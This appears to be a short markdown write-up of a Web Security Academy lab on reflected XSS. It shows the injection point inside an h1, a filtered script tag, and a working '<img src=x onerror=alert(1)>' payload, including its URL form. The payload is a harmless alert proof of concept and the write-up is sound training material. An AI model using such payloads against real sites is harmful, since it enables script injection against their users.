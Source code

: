 # Lab: Reflected XSS into HTML context with nothing encoded

🔗 **Lab URL**:  
https://0a130085045e67ba8032039b00c5004a.web-security-academy.net/?search=coffee

---

## 🎯 Goal  
Trigger a JavaScript alert via reflected XSS.

---

## 🧪 Steps  
1. Input reflected in HTML inside `<h1>`:  
   `<h1>0 search results for 'coffee">'</h1>`

2. Tried:
   ```
   coffee">
   coffee<scripr>alert(1)</script>      ❌ filtered
   coffee<img src=x onerror="alert(1)"> ✅ works
   ```

3. To fix broken HTML:
   ```
   coffee<img src=x onerror="alert(1)"></h1><!--
   ```

---

## ✅ Final Payload  
```html
<img src=x onerror="alert(1)">
```

Encoded in URL:  
`?search=coffee<img src=x onerror="alert(1)"></h1><!--`

---

## 🛠 Tools  
Browser only – no filters detected except blocking `<script>`.

---

## ✅ Status: Solved
